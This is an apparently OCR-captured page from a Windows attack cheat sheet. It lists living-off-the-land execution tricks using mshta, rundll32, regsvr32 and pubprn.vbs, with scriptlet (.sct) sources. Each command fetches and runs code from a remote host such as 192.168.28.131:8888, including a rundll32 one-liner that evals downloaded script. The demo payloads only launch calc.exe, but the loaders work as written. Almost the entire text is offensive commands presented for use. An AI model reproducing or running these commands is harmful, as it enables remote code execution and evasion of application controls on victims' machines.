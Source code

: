 ```plain
mshta http://192.168.28.128/run.hta
```

#### Run32

```plain
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

#### regsvr32

```plain
regsvr32.exe /u /n /s /i:http://192.168.28.131:8888/file.sct scrobj.dll
File.sct
<?XML version="1.0"?>
<scriptlet>
<registration
    progid="ShortJSRAT"
    classid="{10001111-0000-0000-0000-0000FEEDACDC}" >
    <script language="JScript">
        <![CDATA[
            ps  = "cmd.exe /c calc.exe";
            new ActiveXObject("WScript.Shell").Run(ps,0,true); // 执行操作
        ]]>
</script>
</registration>
</scriptlet>
```

#### Pubprn.vbs

```plain
Cmd.exe /c’"%windir%System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://192.168.10.1/test.sct’
Test.sct
<?XML version="1.0"?>
<scriptlet>
<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"
    remotable="true"
    >
</registration>
<script language="JScript">
<![CDATA[
        var r = new ActiveXObject("WScript.Shell").Run("calc.exe");  // 执行操作
]]>
</script>
</scriptlet>
```
